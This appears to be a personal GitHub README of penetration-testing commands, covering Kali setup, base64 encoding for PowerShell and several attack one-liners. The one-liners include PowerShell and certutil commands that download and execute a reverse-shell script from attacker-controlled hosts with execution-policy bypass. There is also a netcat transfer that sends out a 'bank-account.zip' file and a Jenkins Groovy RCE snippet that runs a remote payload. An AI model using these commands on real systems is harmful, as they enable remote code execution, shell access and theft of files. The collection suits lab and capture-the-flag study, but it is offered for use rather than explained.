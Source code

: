 # PITA-commands-and-setups
Collection of pain in the ass commands which take a bit of googling to find the successful setup





```Installing jdk-8 in kali 2020.X```
- $ sudo apt-get install openjdk-8-jdk
- $ echo "deb http://ftp.us.debian.org/debian sid main" >> /etc/apt/sources.list
- $ apt-get update && apt-get upgrade
- $ sudo apt-get install openjdk-8-jdk
- $ sudo update-alternatives --config java

```linux b64 -> NT utf-16le b64```
- $ echo 'command here' | iconv -t utf-16le | base64 -w 0

```shellings```
- Invoke-WebRequest –Outfile C:\\Windows\\System32\\spool\\drivers\\color\\tcp.ps1 -Uri http://10.10.14.11/tcp.ps1
- powershell -NoP -ExecutionPolicy Bypass –c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/tcp.ps1')
- certutil.exe -urlcache -split -f "http://ATTACKER/FCUpdateService.exe" FCUpdateService.exe

```pwsh paths```
- C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
- C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe 

```nc.exe file transfers```
- \\192.168.119.135\nc.exe -w 3 192.168.119.135 9001 < c:\bank-account.zip 
- nc -lvp 9001 > bank-account.zip 

```jenkins RCE```
`def command = "powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/tcp.ps1')" 
def proc = command.execute() 
println(proc.in.text)`
